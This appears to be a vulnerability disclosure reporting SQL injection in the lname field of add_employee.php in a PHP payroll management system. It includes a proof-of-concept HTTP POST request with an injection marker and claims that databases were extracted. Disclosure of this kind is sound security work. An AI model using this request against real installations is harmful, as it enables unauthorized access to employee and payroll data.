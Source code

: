 # payroll-management-system-in-php has sql injection

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
add_employee.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in add_employee.php. The parameters that can be controlled are as follows: $lname. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

## vulnerability find

When entering 1 ' in this field, an error occurs, indicating a vulnerability in SQL injection

![Image](https://github.com/user-attachments/assets/64456865-329b-4e0a-9086-842b511dd9d2)

![Image](https://github.com/user-attachments/assets/198de144-31af-4965-9c9e-0486bbc48c17)



**Code analysis**    

When the value of   $lname parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/ea219395-1727-45ca-b43f-69e075dadec6)



## POC

```
POST /add_employee.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

lname=1*&fname=1&gender=Male&emp_type=Job+Order&division=Admin&submit=Submit
```

**Result**

get databases 

![Image](https://github.com/user-attachments/assets/470409fe-38b1-4083-9b77-1804f7d14237)

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
